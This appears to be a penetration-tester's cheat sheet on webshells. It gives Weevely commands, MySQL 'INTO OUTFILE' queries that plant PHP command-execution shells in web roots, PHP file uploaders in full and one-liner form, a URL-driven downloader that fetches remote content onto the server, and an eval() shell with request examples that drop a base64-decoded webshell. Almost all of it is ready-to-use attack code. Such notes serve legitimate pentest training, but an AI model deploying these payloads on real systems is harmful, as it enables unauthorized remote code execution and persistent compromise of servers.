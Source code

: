 # Webshells

## 01 - Weevely

^e8491c

Unlike the regular reverse/bind shells that we use to receive a connection. Webshells functions way differently that it doesn't require port forwarding nor a C2 server when sending commands from the attacker. It only requires a foothold to continue on the cyber intrusion.

- Generate a weevely webshell

`$ weevely generate <password> <path>`

- After succesfully uploading on the target's system we can finally move on to post exploitation phase.

`$ weevely <URL> <password>`

Navigate to the **Command and Control** section related to [[05 - Spawn Callback Shell]].

## 02 - Webshells

### 2.1 - MySQL

```
SELECT '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';

SELECT '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE 'C:\\inetpub\\wwwroot\\phpmyadmin\\config\\shell.php';

SELECT '<HTML><BODY><FORM METHOD="GET" NAME="myform" ACTION=""><INPUT TYPE="text" NAME="cmd"><INPUT TYPE="submit" VALUE="Send"></FORM><pre><?php if($_GET["cmd"]) {​​system($_GET["cmd"]);}​​ ?> </pre></BODY></HTML>' INTO OUTFILE '/var/www/phpMyAdmin/cmd.php'
```

### 2.2 - Uploader

- Simple PHP uploader

`$ cat uploader.php`

---

```php
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>File Upload</title>
    </head>
    <body>
        <h2>File Upload</h2>
        <form action="<?php echo $_SERVER['PHP_SELF']; ?>" method="POST" enctype="multipart/form-data">
            <input type="file" name="fileToUpload" id="fileToUpload">
            <input type="submit" value="Upload" name="submit">
        </form>

        <?php
        if (isset($_POST['submit'])) {
            if (!empty($_FILES['fileToUpload']['name'])) {
                $targetDir = './'; // Upload to the same directory as the PHP script
                $targetFile = $targetDir . basename($_FILES['fileToUpload']['name']);

                if (move_uploaded_file($_FILES['fileToUpload']['tmp_name'], $targetFile)) {
                    echo "File uploaded successfully.";
                } else {
                    echo "Sorry, there was an error uploading your file.";
                }
            } else {
                echo "Please choose a file to upload.";
            }
        }
        ?>
    </body>
</html>
```

One liner PHP code.

```php
<?php if(isset($_POST['submit'])){$t='./';$f=$t.basename($_FILES['fileToUpload']['name']);if(move_uploaded_file($_FILES['fileToUpload']['tmp_name'],$f))echo"File uploaded successfully.";else echo"Sorry, there was an error uploading your file.";}?> <!DOCTYPE html><html lang="en"><head><meta charset="UTF-8"><meta name="viewport" content="width=device-width, initial-scale=1.0"><title>File Upload</title></head><body><h2>File Upload</h2><form action="<?=$_SERVER['PHP_SELF']?>" method="POST" enctype="multipart/form-data"><input type="file" name="fileToUpload" id="fileToUpload"><input type="submit" value="Upload" name="submit"></form></body></html>
```

SQL Query for reference.

```sql
SELECT '<?php if(isset($_POST[\'submit\'])){$t=\'./\';$f=$t.basename($_FILES[\'fileToUpload\'][\'name\']);if(move_uploaded_file($_FILES[\'fileToUpload\'][\'tmp_name\'],$f))echo"File uploaded successfully.";else echo"Sorry, there was an error uploading your file.";}?>\n<!DOCTYPE html><html lang=\"en\"><head><meta charset=\"UTF-8\"><meta name=\"viewport\" content=\"width=device-width, initial-scale=1.0\"><title>File Upload</title></head><body><h2>File Upload</h2><form action=\"<?=$_SERVER[\'PHP_SELF\']?>\" method=\"POST\" enctype=\"multipart/form-data\"><input type=\"file\" name=\"fileToUpload\" id=\"fileToUpload\"><input type=\"submit\" value=\"Upload\" name=\"submit\"></form></body></html>' INTO OUTFILE '/path/to/uploader.php'
```

- PHP uploader with table view

```php
<!-- https://community.netwitness.com/t5/netwitness-community-blog/from-sql-injection-to-webshell/ba-p/521012 -->
<!DOCTYPE html>
<html>
	<head>
	    <title>File Upload</title>
	</head>
	<body>
	    <form enctype="multipart/form-data" method="POST">
	        File: <input name="file" type="file"><br>
	        <input type="submit" value="Upload">
	    </form>
	
	    <?php
	    if (!empty($_FILES["file"])) {
	        $file = $_FILES["file"];
	        if ($file["error"] > 0) {
	            echo "Error: {$file['error']}<br>";
	        } else {
	            echo "Stored file: {$file['name']}<br>Size: " . ($file["size"] / 1024) . " kB<br>";
	            move_uploaded_file($file["tmp_name"], $file["name"]);
	        }
	    }
	
	    $dirArray = array_filter(scandir("."), function($entry) { return $entry[0] !== "."; });
	    $indexCount = count($dirArray);
	    echo "$indexCount files<br><table border=1 cellpadding=5 cellspacing=0 class=whitelinks><tr><th>Filename</th><th>Filetype</th><th>Filesize</th></tr>";
	
	    foreach($dirArray as $entry) {
	        echo "<tr><td><a href=\"$entry\">$entry</a></td><td>" . filetype($entry) . "</td><td>" . filesize($entry) . "</td></tr>";
	    }
	
	    echo "</table>";
	    ?>
	</body>
</html>
```

- One liner PHP code

```php
<!DOCTYPE html><html><head><title>File Upload</title></head><body><form enctype="multipart/form-data" method="POST">File: <input name="file" type="file"><br><input type="submit" value="Upload"></form><?php if (!empty($_FILES["file"])) {$file = $_FILES["file"];if ($file["error"] > 0) {echo "Error: {$file['error']}<br>";} else {echo "Stored file: {$file['name']}<br>Size: " . ($file["size"] / 1024) . " kB<br>";move_uploaded_file($file["tmp_name"], $file["name"]);}$dirArray = array_filter(scandir("."), function($entry) { return $entry[0] !== "."; });$indexCount = count($dirArray);echo "$indexCount files<br><table border=1 cellpadding=5 cellspacing=0 class=whitelinks><tr><th>Filename</th><th>Filetype</th><th>Filesize</th></tr>";foreach($dirArray as $entry) {echo "<tr><td><a href=\"$entry\">$entry</a></td><td>" . filetype($entry) . "</td><td>" . filesize($entry) . "</td></tr>";}echo "</table>";?></body></html>
```

### 2.3 - Downloader

```php
<?php fwrite(fopen($_GET[f], 'w'), file_get_contents($_GET[u])); ?>
```

SQL Query for reference.

```sql
SELECT '<?php fwrite(fopen($_GET[f], \'w\'), file_get_contents($_GET[u])); ?>' INTO OUTFILE '/var/www/html/downloader.php'
```

### 2.4 - Evaluate PHP Code

```php
<?php eval($_GET[evaluate]); ?>
```

SQL Query for reference.

```sql
SELECT '<?php eval($_GET[evaluate]); ?>' INTO OUTFILE '/var/www/html/eval_php.php'
```

#### 2.4.1 - Usage

- Gather PHP Version

```
http[s]://<URL>//eval_php.php?evaluate=phpinfo();
```

- Base64 encoded

```
http[s]://<URL>//eval_php.php?evaluate=if(file_put_contents('webshell.php', base64_decode(<base64_encoded>))){ echo 1;} else {echo 2;}
```

### 2.5 - Laudanum

You can navigate to `/usr/share/laudanum` or `/usr/share/webshells` based on what pentest distro you have or you can clone it on github

---
## References

- [Webshell](https://oscp.infosecsanyam.in/shells/webshell)

- [p0wny-shell](https://github.com/flozz/p0wny-shell)